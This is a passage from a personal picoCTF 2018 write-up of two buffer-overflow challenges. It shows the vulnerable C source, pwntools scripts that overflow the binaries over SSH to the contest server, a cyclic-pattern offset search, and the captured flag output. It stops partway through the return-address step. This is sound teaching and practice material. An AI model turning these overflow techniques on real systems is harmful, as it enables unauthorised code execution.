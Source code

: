 # Binary Exploitation

### B**uffer overflow 0 - Points: 150**

> Let's start off simple, can you overflow the right buffer in this [program](https://2018shell.picoctf.com/static/bacf5fae929ccfce6eacdc51cfad3031/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0\_3\_d5263c5219b334339c34ac35c51c4a17 on the shell server. [Source](https://2018shell.picoctf.com/static/bacf5fae929ccfce6eacdc51cfad3031/vuln.c).  
> Hint:   
> How can you trigger the flag to print?  
> If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

vuln.c contents:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }  else
    printf("This program takes 1 argument.\n");
  return 0;}
```

One way was to run the program and pass a really long \(supposedly at least 28 bytes\) string and it will print the flag on the server. Another method I wanted to use was pwntool because it gave me an opportunity to learn about the this popular program.

```c
from pwn import *

username = "tokumeipoh"

input = 'a' * 28

connection = ssh(host="2018shell.picoctf.com", user=username, password="{password}")

py = connection.run("cd /problems/buffer-overflow-0_3_d5263c5219b334339c34ac35c51c4a17; ./vuln {}".format(input))

print(py.recv())
connection.close()
```

Shell results:

```text
poh@pohSurface:/mnt/d/pradagy/projects/ctf/pico2018/buffer overflow 0$ python3 try.py 
[+] Connecting to 2018shell.picoctf.com on port 22: Done
[*] tokumeipoh@2018shell.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Starting remote process '/bin/bash' on 2018shell.picoctf.com: pid 130175
b'picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}\n'
[*] Stopped remote process 'bash' on 2018shell.picoctf.com (pid 130175)
```

### **Buffer overflow 1 - Points: 200** 

> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/f8fb1e2f61e93367783d7831e70ef1a2/vuln)? You can find it in /problems/buffer-overflow-1\_4\_9d46ad1b74894db5d4831b91e19ee709 on the shell server. [Source](https://2018shell.picoctf.com/static/f8fb1e2f61e93367783d7831e70ef1a2/vuln.c).  
> Hint: This time you're actually going to have to control that return address! Make sure you consider Big Endian vs Little Endian.

We can learn that we need to invoke the win\(\) function in order to have the flag revealed. And using cutter, I found the function address starts at 0x080485cb. Or you can use a handy linux command for quick reference:  
`objdump -x -d vuln` -x: display all available header info, -d: dissamble \(show assembly code\).  
 If you run the program with different arguments, you will get different return addresses, meaning that there is a padding for the input and then the program jumps to the overflowed input being translated to program address.

{% hint style="warning" %}
This program did not run on my pc because it is missing the asm.h file. What I had to do was run my python code to connect to the server and then conveniently used pwntools. 
{% endhint %}

I first ran this script

```python
from pwn import *

host = "2018shell.picoctf.com"
directory = "/problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709"
conn = ssh(host=host, user="tokumeipoh")

io = conn.run(f"cd {directory}; ./vuln")
print(io.recv())
io.sendline(cyclic(100))
# cyclic(100) = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
print(io.recvall())
```

```python
[+] Connecting to 2018shell.picoctf.com on port 22: Done
[*] tokumeipoh@2018shell.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: 'cd /problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709; ./vuln': Done
b'Please enter your string: \n'
[+] Receiving all data: Done (131B)
[*] Closed SSH channel with 2018shell.picoctf.com
b'Okay, time to return... Fingers Crossed... Jumping to 0x6161616c\nbash: line 1: 704804 Segmentation fault      (core dumped) ./vuln\n'
```

This meant it read all of my input up until  `0x6161616c` and then it used that as an address to jump to next in assembly.   
1\) First of all, I needed to find out how many bytes \(letters\) it read as input until it overflowed the buffer.   
2\) Then need to find out what address we really want it to jump to, which is the win\(\).  
3\) Construct a string with proper padding and address, with little endian \(which is lsb first\).

1. This part is finding how much padding is needed by locating  `0x6161616c` in the cyclic\(100\). Use the following command in python prompt with pwn imported. This returns the number of bytes the parameter is located at when using cyclic\(n\).  
    `>>> cyclic_find(0x6161616c)`

   `44`  
   So the padding is 44 bytes.

2. In bash, view the assembly code of vuln and grep for win function:  
    `poh@pohSurface:$ objdump -x -d vuln | grep win`

   `080485cb g     F .text  00000064              win`

   `080485cb <win>:`

    `80485ed:       75 1a                   jne    8048609 <win+0x3e>`  
   Address location is at 080485cb. Use python with pwn imported to find hex value and reverse endian   
    `>>> p32(0x080485cb)`

   `b'\xcb\x85\x04\x08'`  
   little endian version is b'\x08

3. 
